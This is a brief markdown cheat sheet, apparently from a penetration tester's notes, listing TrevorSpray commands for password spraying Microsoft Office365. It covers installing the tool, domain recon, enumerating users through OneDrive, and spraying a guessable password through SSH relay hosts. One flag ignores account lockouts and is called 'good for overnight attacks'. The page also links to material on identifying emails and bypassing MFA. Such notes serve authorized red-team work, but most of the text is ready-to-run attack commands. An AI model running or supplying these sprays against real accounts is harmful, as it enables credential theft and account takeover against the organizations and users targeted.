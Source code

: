 ```yaml
---
description: >-
  A list of tools and resources that I use for password spraying Microsoft
  products.
---
```


# Office365

### Password Spraying Office365

#### TrevorSpray

```bash
# Installation
pip install git+https://github.com/blacklanternsecurity/trevorproxy
pip install git+https://github.com/blacklanternsecurity/trevorspray

# Perform recon against a domain
trevorspray --recon $domain

# Enumerate users via OneDrive
trevorspray --recon $domain -u $emails --threads 3

# Spray with a 10 second delay between requests
trevorspray -u $validemails -p 'Winter2022!' --delay 10

# Spray with two robins and the current system
trevorspray -u $validemails -p 'Winter2022!' --ssh root@$robin root@$robin

# Spray while ignoring account lockout (good for overnight attacks)
trevorspray -u $validemails -p $passwords --ignore-lockouts
```

### Identifying Emails without OSINT

{% embed url="https://github.com/blacklanternsecurity/TREVORspray#example-find-valid-usernames-without-osint-d" %}

### References

{% embed url="https://www.sprocketsecurity.com/resources/how-to-bypass-mfa-all-day" %}
